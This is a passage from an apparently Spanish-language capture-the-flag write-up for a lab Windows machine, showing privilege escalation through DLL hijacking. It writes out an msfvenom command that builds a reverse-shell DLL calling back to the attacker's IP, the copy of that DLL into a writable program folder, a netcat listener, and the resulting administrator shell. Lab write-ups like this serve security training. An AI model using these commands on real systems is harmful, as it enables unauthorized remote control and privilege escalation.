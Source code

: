 Esto es interesante ya que recordemos que teníamos permisos de escritura en el directorio `Libraries` y los tiros pueden ir por hacer un DLL Hijacking...

## DLL Hijacking -> Privilege Escalation
Vamos a crear un DLL malicioso con `msfconsole` para meterlo en `Libraries` e intentar que el programa cargue el DLL malicioso y así nos mande una revshell.
```console
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.104 LPORT=443 -f dll -o evil.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 9216 bytes
Saved as: evil.dll
```

Ahora subimos el DLL como `externalupload.dll`.
```console
*Evil-WinRM* PS C:\Program Files\ReportManagement\Libraries> copy \\10.10.14.104\smbFolder\evil.dll externalupload.dll
*Evil-WinRM* PS C:\Program Files\ReportManagement\Libraries> dir


    Directory: C:\Program Files\ReportManagement\Libraries


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         9/12/2024  12:12 PM           9216 externalupload.dll


```

Ahora nos ponemos en escucha con `netcat` por el puerto 443.
```console
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
```

Y si intentamos subir un archivo vemos que no me sale el error que me salía antes...
```console
$ proxychains nc 127.0.0.1 100
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:1080-<><>-127.0.0.1:100-<><>-OK
Reports Management administrative console. Type "help" to view available commands.
upload /etc/hosts
Attempting to upload to external source.
```

Y conseguimos una consola como `Administrator`
```console
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.104] from (UNKNOWN) [10.129.196.198] 53339
Microsoft Windows [Version 10.0.19045.3570]
(c) Microsoft Corporation. All rights reserved.

C:\Program Files\ReportManagement>whoami
whoami
appsanity\administrator
```
